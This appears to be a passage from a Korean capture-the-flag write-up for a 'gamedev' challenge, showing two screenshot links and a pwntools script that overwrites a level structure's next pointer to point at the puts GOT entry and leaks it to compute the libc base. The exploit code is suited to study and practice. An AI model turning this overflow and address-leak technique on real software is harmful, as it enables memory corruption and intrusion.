 ![스크린샷 2025-02-10 오후 3.46.35.png](gamedev%20fd3e2266a94145349697dc11ed6fd002/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_3.46.35.png)

![스크린샷 2025-02-10 오후 4.02.20.png](gamedev%20fd3e2266a94145349697dc11ed6fd002/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_4.02.20.png)

```python
# 0x4008은 gdb로 이용하여 구했습니다.
puts_got = code_base + 0x4008
# puts_got = code_base + e.got['puts'] 로 하는 것이 더 쉽고, 빠르고, 안전합니다.

print(hex(code_base))
print(hex(puts_got))
print(hex(code_base + e.got['puts']))

# Round 1
# Set Level to Overwrite next index
create_level(1) # start: 1
create_level(2) # start: 1 2
create_level(3) # start: 1 2 3
explore(1) # start-1

# Overwrite start-2's next[0]
payload = b'A' * 0x30 + p64(puts_got-0x40)
edit_level(payload)

# Leak libc base
reset()
explore(2) # start-2
explore(0) # start-2-0
test_level() # leak puts_got ?
p.recvuntil(b'data: ')
libc_puts = p.recvn(8)
libc_base = u64(libc_puts) - 0x77980
```
